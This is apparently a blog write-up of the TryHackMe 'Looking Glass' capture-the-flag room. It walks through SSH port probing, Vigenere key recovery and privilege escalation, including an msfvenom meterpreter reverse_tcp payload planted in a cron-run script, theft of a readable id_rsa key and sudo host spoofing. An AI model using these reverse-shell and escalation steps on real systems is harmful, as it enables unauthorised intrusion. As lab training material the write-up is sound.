+++
title = "Looking Glass - TryHackMe"
date = 2020-10-19T04:18:16+11:00
lastmod = 2020-10-19T04:18:16+11:00
tags = ["TryHackMe", "Escalation", "Vigenere Cipher", "SSH"]
categories = ["Boot2Root"]
imgs = []
cover = ""  # image show on top
readingTime = true  # show reading time after article date
toc = true
comments = true
justify = false  # text-align: justify;
single = true  # display as a single page, hide navigation on bottom, like as about page.
license = ""  # CC License
draft = false
+++

# Info

This is a room from [TryHackMe](https://tryhackme.com).

[https://tryhackme.com/room/lookingglass](https://tryhackme.com/room/lookingglass)

This room is a sequel of [Wonderland](https://tryhackme.com/room/wonderland). And [here's my writeup of Wonderland](/post/tryhackme-wonderland).

If you have any questions, or want to discuss anything with me, please leave a comment or find me through methods listed in [About Page](/about)


# Recon

First thing, no surprise, `nmap`:

```bash
nmap  10.10.84.1 | tee nmap.log
```

But this machine gave me a huge surprise:



So many ports up. To figure out what services are running on these ports, I tried connecting them with `netcat`.

After trying connecting some of the ports, I found that most of the ports return a **SSH-2.0-dropbear** banner; Except port 22, which returns banner **SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3**.



So I tried SSH to some of the ports, each of them returns a message of either "Higher" or "Lower":



Higher ports tell me "Higher", lower ones tell me "Lower". So I guess there might be one correct port. Ports higher than the correct one will say "Higher", ones lower than that will say "Lower".

# Entering The Looking Glass

To find this "correct" port, I wrote a Bash script and saved it as `find_port.sh`:

```bash
#!/usr/bin/bash

low=10000
high=11000

while true
do
	mid=$(echo "($high+$low)/2" | bc)
	echo -n "Low: $low, High: $high, Tring port: $mid -- "
	msg=$(ssh -o "StrictHostKeyChecking=no" -p $mid 10.10.84.1 | tr -d '\r')
	echo "$msg"

	if [[ "$msg" == "Lower" ]]
	then
		low=$mid
	elif [[ "$msg" == "Higher" ]]
	then
		high=$mid
	fi
done
```

The script froze at port 10820:


Then when I tried to connect to this port with SSH, it says *You've found the read service.* And I got a encrypted text, and the service asked me for a secret:



I saved this encrypted text into `challenge.txt`. First thing I tried was ROT13, but it didn't seem to work:



Then something seems like a title and looks less gibberish caught my attention. I Google'd "Jabberwocky" and found a poem. Comparing them side-by-side shows that they definitely are the same text, and I must be in the right direction:



With some simple observation, I guessed this is some kind of alphabet substitution cipher. But one certain letter in the clear text does not map to a certain letter in the cipher text. So I decided to try Vigenere cipher.

To calculate the key of a Vigenere cipher with known clear text, simply decode the cipher text with the clear text as key. I did this with [CyberChef](https://gchq.github.io/CyberChef/):



We can see the repeating pattern is "thea********", which is the key we want.

Then I decoded the cipher text with this key:



And we got the secret.

Now with this secret, I accessed port 10820 again and put in the secret. It gave me a credential:



So I tried this credential on port 22:



Yay! I'm in!

# Local Escalation

Since we have the user password, we can have a look if we can use `sudo` command:

```bash
sudo -l
```


Interesting. Seems that we can reboot the machine. This is very rare.

I gave `sudo reboot` a go. My SSH connection lost. Then when the machine restarted, I tried to login as jabberwock again with the credential I got earlier. And I failed. Even port 10820 was not the correct challenge port any more.

So I ran `find_port.sh` again, gave it the same secret, and I got a different password for jabberwock.

So far I found this machine really creative as a challenge. 

So I went on investigation. `poem.txt` is a text file which contains the poem *Jabberwocky*:


`twasBrillig.sh` is a script file containing one single command:


Taking a look at `/home` directory and `/etc/passwd` file shows that there are quite several other users on this machine:



That's enough of manual searching, time to run a automated local enumeration. I ran linpeas.sh as jabberwock.

In the report generated by linpeas.sh, I found the following line very interesting:


This is written in file `/etc/crontab`:



User tweedledum will run the `twasBrillig.sh` script we found above at reboot. By altering this script, we should be able to get a shell of tweedledum.

To do this, I first generated a payload with `msfvenom`:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.xx.xx.xx LPORT=4443 -f elf -o mt.bin
```


Then uploaded it to the target machine, and added the following line into `twasBrillig.sh`:

```bash
/home/jabberwock/mt.bin
```

On my local machine, I started Metasploit, and selected the exploit, selected the payload and started listening:

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
exploit
```

Then on the target machine as jabberwock:

```bash
sudo reboot
```

After waiting for a while, I received the connection:


Inside tweedledum's home directory, 2 text files are interesting:


So I downloaded `humptydumpty.txt` and investigated it. I tried to reverse the hex string into binary and see what it contains:


But what password is this?

Then I checked what tweedledum can do with `sudo`:


Turns out tweedledum can run `/bin/bash` as tweedledee.

After trying some commands as tweedledee, I found that files in tweedledee's home directory are pretty much the same as in tweedledum's home directory, and tweedledee can run `/bin/bash` as tweedledum.

Seems nothing quite informative, except for the password. So next I focused on the password.

After some trials and fails, the password I just found turned out to be humptydumpty's:




The only thing seems interesting in humptydumpty's home directory is `poetry.txt`:



Seems like just a section from the novel.

Quick check on `sudo` command:


Bummer :(

Maybe it's time for another local enumeration.

But I found nothing exploitable from `linpeas.sh` report.

I'm a bit stuck here. And I have to admit that I took some extra hint here.

The author of this box has actually put some subtle hint here, but it's just too subtle for me to get it.

In the `/home` directory, a weird thing about alice's home is that everybody has execution permission on it:


This means we can `cd` into that directory, but cannot `ls` in it:


Buuuut, even though we cannot `ls` the directory, with the execution permission on it, we can read files in it if **a)** we know the file name AND **b)** we have read permission on that file. 

For example, jabberwock can read alice's `.bash_rc`:


So, what would be the most interesting file in alice's home whose name we can guess?

That would be `.ssh/id_rsa`:



So I grabbed this file, named it `id_rsa_alice`, and used it to login as alice:


And we got another user's shell!

Under alice's home directory, nothing looks particularly interesting straightaway:



So it's time to enumerate again!

The file `/etc/sudoers.d/alice` somehow caught my attention:



Looks like alice can somehow run `/bin/bash` as root, doesn't need password! But what is the **ssalg-gnikool** thing?

It's **looking-glass** written backwards, I know. But what does this field mean in that file?

According to [this guide](https://www.digitalocean.com/community/tutorials/how-to-edit-the-sudoers-file), [this guide](https://www.sudo.ws/man/1.8.14/sudoers.man.html), and [this guide](https://www.oreilly.com/library/view/linux-security-cookbook/0596003919/ch05s06.html), this field is used to indicate on which hosts can this user sudo to the target user.

So we either need to be on a host called **ssalg-gnikool** to sudo, or **ssalg-gnikool** is a alias that includes **looking-glass** to sudo. 

And finally I found in [this answer entry](https://askubuntu.com/a/1093672) that, YOU CAN ACTUALLY SPECIFY HOSTNAME with `sudo -h`. And this behavior is very easy to be overlooked in `sudo`'s help:


Soooo, finally, let's root this machine!

